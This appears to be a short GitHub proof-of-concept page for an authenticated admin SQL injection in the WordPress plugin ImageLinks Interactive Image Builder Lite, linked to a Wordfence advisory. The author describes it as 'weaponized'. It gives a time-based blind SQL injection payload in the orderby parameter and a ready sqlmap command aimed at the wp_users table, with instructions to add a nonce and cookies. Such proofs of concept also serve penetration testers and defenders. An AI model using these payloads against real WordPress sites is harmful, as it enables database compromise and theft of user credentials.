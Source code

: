 https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/imagelinks-interactive-image-builder-lite/imagelinks-154-authenticated-admin-sql-injection

>[!note]
> I do not take credit for finding this, I only simply weaponized it as it was missing technical details on exploitation.

PoC:

```page=imagelinks&_wpnonce=13e9be524c&_wp_http_referer=/wp-admin/admin.php?page=imagelinks&action=-1&imagelinks_item[0]=2&action2=-1&orderby=title AND (SELECT 2209 FROM (SELECT(SLEEP(5)))GBjd)&order=asc```

SQLMap:

> MAKE SURE TO REPLACE THE NONCE AND ADD COOKIES, YOU MAY NEED TO ENUM DATABASES AS WELL AND PIN TO PROPER DATABASE
```
sqlmap -u 'http://localhost/wp-admin/admin.php?page=imagelinks&_wpnonce=13e9be524c&_wp_http_referer=/wp-admin/admin.php?page=imagelinks&action=-1&imagelinks_item[0]=2&action2=-1&orderby=title&order=asc' -p 'orderby' -D wordpress -T wp_users --cookie='COOKIESHERE'
```